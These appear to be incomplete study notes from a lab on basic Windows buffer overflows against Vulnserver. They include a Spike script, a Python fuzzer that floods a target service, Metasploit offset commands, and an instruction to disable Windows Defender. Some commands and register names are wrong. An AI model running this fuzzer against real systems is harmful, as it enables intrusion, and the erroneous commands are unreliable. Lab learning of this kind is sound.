

# Buffer Overflow (Basic)

**[Back To Command-Center](https://github.com/codetorok/command-center/blob/master/README.md)**

⚠️ **IMPORTANT NOTE:** This is not a tutorial write-up on how to use the different tools you'll need to accomplish  a **BOF** and on how to use the needed tools like the ***Immunity Debugger*** and the alikes. These are quick notes to be able to have a quick recap if you get stuck or just want to refresh your Buffer Owerflow knowledge. 

For the full tutorial and lectures on BOF it is highly recommended to take the **PEH** course from **[TCM-SECURITY](https://academy.tcm-sec.com/)**.

## Things you'll need

* **You can find all the necesarry files in the `scripts` folder.**
* need a Windows machine on a VM (get it for free from Google: Microsoft Evaluation Center)
* download and install **Immunity Debugger** (goes on the Win machine): **[Download Link](https://debugger.immunityinc.com/ID_register.py)** and here's the **[Main Website](https://www.immunityinc.com/products/debugger/)**
* download from Github: **[mona](https://github.com/corelan/mona)** and put it in the 
* kali of course
* scripts from the **`./scripts`** folder

## Quick Visual Recap

* In the Stack we are overflowing the buffer space to reach the **EIP**
* We can use the **EIP** to point into directions that we instruct





## Steps Involved

1. Spiking
2. Fuzzing
3. Finding the Offset
4. Overwriting the EIP
5. Finding Bad Characters
6. Generating Shellcode 
7. Root

## Spiking

* disable Windows Defender overall (Real Time Protection OFF)
* We need to run Immunity Debugger as Admin
* Run your vulnerable server as Admin as well (You can get one from Vulnserver if needed) I'll use **Vulnserver** as an example from now on.
* let's connect to our server from kali: `nc <vulnserver's IP> <PORT>`
* Spike will help to find which command is vulnerable
* If we can overflow it and it crashes it's vulnerable
* We'll need to use `generic_send_tcp` from kali and our spike script

### Spike Script Example: stats.spk using the ***STATS*** command

```
$_readline();
$_string("STATS ");
$_string_variable("0");
```

* we will update this script for all the different commands that we had acces to when connecting to Vulnserver with nc
* whichever crashes we'll focus on that command
* **in these notes we'll assume that we found the TRUN command and it's vulnerable**
* when TRUN spike crashes the servers make sure you check out how the server recieved the command and use it like that in your python script that will come into play later on. In this example it was: `TRUN /.:/`
* **EBP shows 41414141 which is hex for A**


## Fuzzing

* it's like spiking but now that we now which command is vulnerable we're going to attack that specific command
* if you crashed it attach Vulnserver back and restart the service (little play button)

### fuzzing.py

* ⚠️ This script is a bit different from what was shown during the course, but it's more up to date and is for Python3
* change: **prefix** to TRUN /.:/ (in this example) and IP, PORT of Vulnserver

```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.239.130"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

* don't forget to `chmod +x fuzzing.py`
* once we run this script we'll know the program crashes at what bytes (in this example it crashes at 2700 bytes)
* we round it up, we crashed at around 3000 bytes
* let's find the **EIP** value

## Finding The Offset

* using metasploit pattern create with -l (for length) and our rounded up bytes where the server crashed which was 3000
* `/usr/share/metasploit-framework/tools/exploit/patter_create.rb -l 3000`

The following output will be sent to Vulnserver:


* copy the output and modify the script where `string = prefix + "A" * 100` to `string = prefix + "<metasploit output>"`
* this time when the server crashes we'll see the value on the **EIP** and we'll use metasploit again with that specific patter offset value
* for the sake of example let's say the EIP value is: `368F4337`
* in metasploit:
* `/user/share/metasploit-framework/tools/exploit/patter_create.rb -l 3000 -q 368F4337`
* output will show the exact match for offset (in this example it's 2003 bytes)
* it tells us the at the exactly 2003 bytes we can control the EIP, now let's overwrite it

## Overwriting the EIP

* continue from here...
